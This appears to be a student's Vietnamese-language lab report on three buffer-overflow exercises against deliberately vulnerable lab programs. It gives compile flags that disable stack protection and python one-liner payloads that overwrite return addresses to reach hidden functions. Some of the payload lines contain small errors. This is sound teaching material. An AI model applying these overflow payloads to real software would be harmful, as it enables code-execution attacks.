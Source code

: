 # 22110054 Nguyễn Hữu Nghi
***
# Buffer-overflow Attack

## Bof1
Stack-frame

![image](https://github.com/user-attachments/assets/47c6fffc-c76a-49fe-a1f3-91fc6b3f2c34)
<br></br>
<br>
Biên dịch bằng chương trình: 
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2 `

Sử dụng lệnh `objdump -d bof1.out | grep secretFunc` để xác định vị trí hàm secretFunc và các đoạn mã liên quan tới hàm này

Sau đó, sử dụng lệnh `echo $(python -c "print('a'*204 + '\x08\x04\x84\x6b')") | ./bof1.out` để chèn 204 bytes kí tự bất kì ( ở đây là ký tự 'a') để thực hiện tấn công.
</br>
<br>Kết quả sẽ là: Congratulation!</br>
![alt](https://github.com/nghi113212/Security-lab-submit/blob/main/imgs/Screenshot%202024-09-09%20093458.png)

## Bof2
Stack-frame


![image](https://github.com/user-attachments/assets/481d51a2-7068-4d38-9874-5f43c3fc4def)
<br>
Biên dịch chương trình bằng gcc: <br>
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2 `
</br>
Chạy thử chương trình bằng lệnh `echo $(python -c "print('a'*41')") | ./bof2.out` để dò được địa chỉ `0xdeadbeef`
  <br>Kết quả sẽ là: You are on the right way!</br>
Sau đó chạy tiếp chương trình bằng lệnh `echo $(python -c "print('a'*40')") | ./bof2.out`
  <br>Kết quả hiển thị sẽ là: Yeah! You Win!</br>
</br>

![alt](https://github.com/nghi113212/Security-lab-submit/blob/main/imgs/Screenshot%202024-09-09%20093233.png)


## Bof3
Stack-frame

![image](https://github.com/user-attachments/assets/5ba00958-3f82-4eb7-9993-bef36dfc1a66)

<br>Biên dịch chương trình dùng lệnh:`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2 ` </br>
<br>Sử dụng lệnh: `objdump -d bof3.out | grep shell` để xác định hàm shell</br>
<br>Sau đó thực hiện lệnh:`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out` để chèn 128 byte kí tự 'a' vào chương trình</br>
<br>Kết quả sẽ là: You make it! The shell() function is executed</br>
<br></br>
![alt](https://github.com/nghi113212/Security-lab-submit/blob/main/imgs/Screenshot%202024-09-09%20092857.png)




